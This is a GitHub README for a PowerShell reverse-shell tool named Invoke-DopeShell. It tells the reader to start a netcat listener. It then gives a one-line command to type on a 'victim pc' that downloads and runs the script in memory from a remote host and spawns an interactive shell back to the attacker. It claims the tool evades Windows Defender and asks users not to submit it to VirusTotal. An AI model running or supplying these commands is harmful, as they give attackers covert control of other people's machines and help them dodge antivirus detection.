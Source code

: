 <img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">

# INSTRUCTIONS : - 
<br>
 <br> 
1.) Run [nc -nlvp 'port'] on your terminal to start up a listener.
<br>
 <br> 
2.) Open powershell on the victim pc and type:-  <br> 
 <br> 
IEX (IWR 'https://raw.githubusercontent.com/anonymous300502/powershell_payload/main/Invoke-DopeShell.ps1' -UseBasicParsing) | Invoke-DopeShell "IP" "PORT". <br> Enter the IP ADDR and PORT of YOUR machine from where you are listening.

## This will spawn a interactive shell with the target pc and run in memory to evade AV 
### Currently undetectable by the latest updated version of windows defender on Win 11 ( last tested on 17:00 IST June 13th 2024) 

Please dont upload the script on virus total :) 


# SCREENSHOTS:-
<br>
## Listener - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/listener.png.png">
<br>
## Spawned Connection without alerting Windows Defender -
<br>
<img scr="powershell_payload/spawned_interactive_shell.png.png">
<br>
## Victim Pc - 
<br>
<img src="https://github.com/anonymous300502/powershell_payload/blob/main/victimpc.png.png">
<br>
